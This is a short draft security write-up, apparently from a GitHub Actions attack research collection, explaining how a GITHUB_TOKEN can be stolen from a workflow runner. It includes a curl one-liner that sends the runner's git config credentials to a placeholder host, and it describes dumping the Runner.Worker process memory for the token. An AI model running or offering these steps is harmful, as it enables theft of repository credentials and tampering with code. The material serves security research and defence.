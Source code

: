 # [DRAFT] The `GITHUB_TOKEN`

With the `GITHUB_TOKEN` a malicious user can push to the base repository or manipulate it in some other way. By default the `GITHUB_TOKEN` has write permissions to all repository resources. However, this can be restricted using [permissions](https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions#permissions).

## Exfiltration of the `GITHUB_TOKEN`

In most cases it is possible to exfiltrate the `GITHUB_TOKEN` with the following technique.

```bash
find $HOME/work -type f -name config | xargs cat | curl --data @- http://{IP}
```

This works because the [`actions/checkout`](https://github.com/actions/checkout) action [persists credentials with a local git config by default](https://github.com/actions/checkout/blob/230611dbd0eb52da1e1f4f7bc8bb0c3a339fc8b7/action.yml#L48-L50).

## Universal exfiltration of the `GITHUB_TOKEN`

There are rare cases when the `GITHUB_TOKEN` is not referenced in a workflow and not persisted with a local git config so the above technique does not work. However, the `GITHUB_TOKEN` is always passed to the `Runner.Worker` process. So after having an arbitrary code execution one could dump memory of the `Runner.Worker` process and grep the dump for the `GITHUB_TOKEN`. See https://gist.github.com/nikitastupin/30e525b776c409e03c2d6f328f254965 for the example script.
